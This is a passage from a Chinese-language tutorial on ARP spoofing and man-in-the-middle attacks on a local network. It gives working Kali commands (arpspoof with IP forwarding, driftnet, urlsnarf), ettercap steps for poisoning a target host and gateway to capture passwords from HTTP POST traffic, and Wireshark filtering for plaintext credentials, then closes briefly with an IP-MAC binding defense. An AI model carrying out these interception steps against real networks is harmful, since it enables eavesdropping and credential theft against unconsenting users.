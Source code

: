 ### 对网关和目标主机B的双向欺骗

这里进行一步执行，选用第二种Ip转发手段
命令如下：

```
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward && arpspoof -i eth0 -t 192.168.11.105 -r 192.168.11.1
```

### 利用driftnet进程监控

持续保持欺骗，再重新打开一个命令终端。
输入命令：

```
root@kali:~# driftnet -i eth0
```

跳出来的drift窗口即会显示本机正在浏览的图片

### 使用ettercap工具获取密码

1. 打开新的终端，输入 attercap -G 启动工具
2. 点击Sniff -> unified sniffing，选择要抓包的网卡，默认是自己的网卡eth0，点确定
3. 然后单击Hosts -> Scan for host，待扫描完成后再次Scan for host，此时可以看到ettercap-NG已经扫描的主机列表
4. 选择攻击目标，点击192.168.11.105的ip地址，点击Add to Target 1 ，然后选择网关的ip地址192.168.11.1，点击Add to Target 2
5. 明确目标攻击方式：点击Mitm -> arp poisoning -> Sniff remote connections -> 确定
6. 开始监听：start -> Start sniffing

工具就会抓取主机B的数据包和主机C返回的数据包,分析http post请求可以判断账号密码信息。

### urlsnarf：获得受害者的HTTP请求

输入命令：

```
root@kali:~# urlsnarf -i eth0
```

### 使用Wireshark抓包

使用Wireshark抓取所有的数据包，过滤分析不同请求，类似于ettercap。
例如，要找HTTP POST请求，过滤，查看明文密码，一般是以POST形式上传的账号密码。

 

## 关于Arp欺骗的防御

[![img](浅谈Arp攻击和利用Arp欺骗进行MITM.assets/t019370399a03c046c4.png)](https://p4.ssl.qhimg.com/t019370399a03c046c4.png)
防御原理很简单，就是不让攻击者肆意表明自己就是网关主机。我们进入网关主机（路由器后台地址），网络参数一栏一般有ip与mac绑定一栏，把网关的mac地址与网关地址绑定就好了。只要确定了对应关系，当攻击者发布arp相应包时，就不会更新相应的ip-mac缓存表。
